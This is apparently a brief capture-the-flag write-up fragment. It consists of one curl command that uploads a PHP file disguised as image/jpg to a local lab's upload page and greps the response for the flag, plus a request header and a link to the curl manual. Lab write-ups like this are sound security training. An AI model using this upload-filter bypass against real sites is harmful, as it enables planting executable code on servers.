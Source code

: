 
curl -X POST -F "uploaded=@file.php;type=image/jpg" -F Upload=upload "http://localhost:8080/index.php?page=upload" | grep "The flag is :"





Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

resource : https://curl.se/docs/manpage.html#-F
